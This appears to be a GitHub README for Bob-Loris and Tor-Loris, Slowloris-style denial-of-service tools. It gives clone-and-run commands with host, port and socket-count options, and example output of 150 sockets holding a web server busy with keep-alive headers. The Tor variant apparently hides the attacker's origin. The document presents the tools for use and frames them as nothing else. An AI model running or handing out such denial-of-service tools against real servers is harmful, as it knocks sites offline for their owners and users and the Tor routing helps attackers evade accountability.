 # Bob-Loris 

**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

# Tor-Loris 
 
**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Tor-loris.py
 
        $ ./Tor-loris.py -H <host> -P <port> -M <max-sockets Default=150>

**Example**
          
	$ ./Tor-loris.py -H 192.168.1.160 -P 80 -M 150 
	       _______           _            _     
            |__   __|         | |          (_)    
               | | ___  _ __  | | ___  _ __ _ ___ 
               | |/ _ \| '__| | |/ _ \| '__| / __|
               | | (_) | |    | | (_) | |  | \__ \
               |_|\___/|_|    |_|\___/|_|  |_|___/
                                                                                                   
          
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	 


